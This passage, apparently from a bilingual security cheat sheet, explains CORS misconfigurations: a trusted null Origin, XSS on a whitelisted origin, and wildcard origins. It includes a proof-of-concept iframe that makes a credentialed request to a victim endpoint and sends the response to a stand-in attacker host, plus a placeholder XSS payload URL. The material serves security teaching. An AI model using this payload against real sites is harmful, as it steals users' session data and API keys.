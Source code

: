 ### Vulnerable Example: Null Origin - 信任null

#### Vulnerable Implementation - 漏洞实现

服务器可能不返回完整的 Origin 标头，但允许 Origin为`null` 。这在服务器的响应中看起来像这样：

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept - 概念验证

这可以通过data URI scheme，将攻击代码放入 iframe 中利用。如果使用data URI scheme，浏览器将在请求中将Origin置为 `null`：

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### Vulnerable Example: XSS on Trusted Origin - 可信Origin的XSS

如果应用程序实施了严格的Origins白名单，则上面的漏洞利用代码将不起作用。但是，如果受信任的Origins上有 XSS漏洞，利用该XSS漏洞，将能够发送跨域请求到目标重要域网站。

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### Vulnerable Example: Wildcard Origin `*` without Credentials - Origin: * 与 Credentials: true 共用

如果服务器使用通配符 origin `*` 进行响应，则**浏览器永远不会发送 cookie**。但是，如果服务器不需要进行身份验证，则仍然可以访问服务器上的数据。这一情况可能发生在无法从 Internet 访问的内部服务器上。攻击者的网站可以访问内部网络，并在未经身份验证的情况下访问服务器的数据。

```
* is the only wildcard origin
https://*.example.com is not valid
```
